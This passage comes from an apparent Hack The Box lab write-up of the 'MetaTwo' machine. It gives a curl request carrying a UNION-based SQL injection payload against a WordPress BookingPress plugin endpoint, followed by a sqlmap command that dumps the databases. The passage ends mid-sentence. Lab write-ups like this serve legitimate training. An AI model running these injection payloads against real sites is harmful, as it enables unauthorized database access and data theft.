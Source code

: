 ```bash
curl -i 'http://metapress.htb/wp-admin/admin-ajax.php' --data 'action=bookingpress_front_get_category_services&_wpnonce=574c0c8595&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -' 
```


![Alt text](/assets/img/htb/MetaTwo/mt5.png)

Using sqlmap with the command following, I was able to dump 2 tables

```bash
sqlmap -u "http://metapress.htb/wp-admin/admin-ajax.php" --method POST --data 'action=bookingpress_front_get_category_services&_wpnonce=574c0c8595&category_id=1&total_service=1' -p total_service --level=5 --risk=3 --dbs  --batch
```

![Alt text](/assets/img/htb/MetaTwo/mt6.png)

With the command 
